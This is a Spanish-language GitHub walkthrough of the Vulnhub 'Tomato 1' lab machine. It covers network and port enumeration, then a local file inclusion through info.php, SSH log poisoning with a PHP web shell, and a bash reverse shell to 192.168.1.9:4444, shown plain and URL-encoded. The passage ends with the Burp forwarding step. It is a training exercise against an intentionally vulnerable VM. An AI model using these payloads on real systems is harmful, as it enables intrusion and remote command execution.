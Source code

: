 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=300&height=80&lines=TOMATO_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/tomato-1,557/

</br>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![1](https://user-images.githubusercontent.com/75953873/174927688-71985557-4e9d-4790-acac-a8b1da611f48.png)

IP host: `192.168.1.10`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.10
```
![2](https://user-images.githubusercontent.com/75953873/174929092-202e91f9-f6d3-428b-a8f9-a952095f67f8.png)

Puertos abiertos: [21,80,2211,8888]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 21,80,2211,8888 -A 192.168.1.10
```
![3](https://user-images.githubusercontent.com/75953873/174929490-44875da3-9b11-4e39-ba9d-0d7be8d85aac.png)

Servidor corriendo: **HTTP Apache**

O.S: Linux (**Ubuntu**)

URL del servidor: `http://192.168.1.10`

![4](https://user-images.githubusercontent.com/75953873/174928906-0bf0a1e9-d580-4d8f-ae94-0c0bbb3a73b6.png)

En el puerto `8888` se encuentra corriendo el servidor Nginx (`http:192.168.1.10:8888`).

![5](https://user-images.githubusercontent.com/75953873/174929899-11ad2340-d883-4fff-8eb2-d68a7dd8b67d.png)

- *Paso 4:* Enumerar archivos y directorios con Dirb. 
```
dirb http://192.168.1.10 /usr/share/dirb/wordlists/common.txt
```
![6](https://user-images.githubusercontent.com/75953873/174931398-0e9f0007-7245-408a-b4d1-d89c6f3e30ae.png)

Directorio: `http://192.168.1.10/antibot_image/`

Al inspeccionar el código del archivo `info.php`, indica en un comentario que es posible subir una imagen con el método GET.
```
curl http://192.168.1.10/antibot_image/antibots/info.php
```
![7](https://user-images.githubusercontent.com/75953873/174932206-434978d3-3417-4eb4-bd3f-cbce7b934c87.png)

- *Paso 5:* Búsqueda de vulnerabilidad LFI (Inclusión de archivos locales).

Herramienta Tester: https://github.com/kostas-pa/LFITester

LFI Payloads: https://raw.githubusercontent.com/emadshanab/LFI-Payload-List/master/LFI%20payloads.txt

```
python3 LFITester.py -L payloads.txt
```
![9](https://user-images.githubusercontent.com/75953873/174938168-ec6ee35f-6eaf-4d05-937a-ada4e7db7e84.png)

URL: 
```
Opción 1) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../etc/passwd
Opción 2) http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log
```

**/etc/passwd**

![8_](https://user-images.githubusercontent.com/75953873/174938823-970ad267-3267-4bbe-9f97-d256d4f5b2e2.png)

**/var/log/auth.log**

![10](https://user-images.githubusercontent.com/75953873/174939217-162ae75c-1412-48dd-98ab-142100bf6e95.png)

- *Paso 6:* Envenenar registros de Apache a través de SSH creando una backdoor por el puerto 2211.
```
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.10 -p 2211
```
![11](https://user-images.githubusercontent.com/75953873/175163279-0d24f94a-7f18-41a2-a627-580aa8e1b0b2.png)

- *Paso 7:* Configurar proxy y capturar solicitud GET con BurpSuite.

Configuración de Firefox **>** Configuración de redes **>** Configuración de proxy manual

HTTP Proxy: `127.0.0.1`

Port: `8080`

![12](https://user-images.githubusercontent.com/75953873/175163339-db1853d5-b77c-47cb-86b5-0fa8e6e5fb28.png)

Acceder a la URL: `http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=`

BurpSuite capturará la solicitud GET y a la misma se le agregará comandos extras para acceder al interior de la máquina con una reverse shell:
```
http://192.168.1.10/antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=bash -c 'bash -i >& /dev/tcp/192.168.1.9/4444 0>&1'
```
![13](https://user-images.githubusercontent.com/75953873/175164908-c3716f51-9f43-4ad5-8f65-7b411f54495e.png)

Antes de obtener un reverse shell, es preciso codificar los comandos extras. Convert selection **>** URL **>** URL-encode all characters
```
antibot_image/antibots/info.php?image=../../../../../../../../../../../../var/log/auth.log&cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%39%2f%34%34%34%34%20%30%3e%26%31%27
```
![14](https://user-images.githubusercontent.com/75953873/175165089-399a559f-9aa8-46d8-a638-c03704825c1f.png)

Después, ponemos a netcat en escucha por el puerto 4444 para obtener una reverse shell:
```
nc -lvnp 4444
```
Seleccionar la URL completa desde el proxy de Burp y hacer clic en **Forward** para enviar la petición GET maliciosa:

![15](https://user-images.githubusercontent.com/75953873/175165583-a851e458-fda4-45c4-a019-d66d6b688cde.png)

